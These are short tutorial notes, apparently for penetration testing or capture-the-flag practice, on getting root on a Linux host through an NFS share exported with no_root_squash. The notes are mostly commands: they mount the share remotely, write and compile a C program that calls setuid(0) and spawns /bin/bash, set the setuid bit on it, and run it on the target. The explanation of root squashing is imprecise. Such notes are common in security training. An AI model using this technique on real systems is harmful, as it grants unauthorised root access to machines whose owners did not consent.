 How to find root squashing?

```shell
cat /etc/exports
```

There you will see "no_root_squash"

If you find no root squash in a folder, that means that the folder is shareable and mountable. 

So how do we mount it?

```shell
showmount -e <ip_of_machine>
mkdir /tmp/mountme
mount -o rw,vers=2 <ip>: /tmp /tmp/mountme
```

Now that we have mounted, we can write our malicious C file on the mounted folder

```shell
echo 'int main() {setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/mountme/x.c
```

```shell
gcc /tmp/mountme/x.c -o /tmp/mountme/x
chmod +s /tmp/mountme/x
```

Then if we come back to the machine and go to the tmp folder and execute x, we get root.

